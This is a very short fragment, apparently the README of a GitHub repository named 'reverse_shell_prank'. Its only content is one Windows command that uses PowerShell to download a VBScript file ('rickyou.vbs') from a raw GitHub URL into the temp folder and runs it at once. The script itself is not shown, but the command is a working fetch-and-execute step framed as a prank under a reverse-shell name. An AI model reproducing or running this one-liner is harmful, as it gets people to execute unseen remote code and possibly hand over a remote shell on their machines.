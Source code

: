 # reverse_shell_prank
del %tmp%/audio.vbs && powershell -command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/wwwqr-000/reverse_shell_prank/main/rickyou.vbs' -OutFile %tmp%/audio.vbs" && start %tmp%/audio.vbs
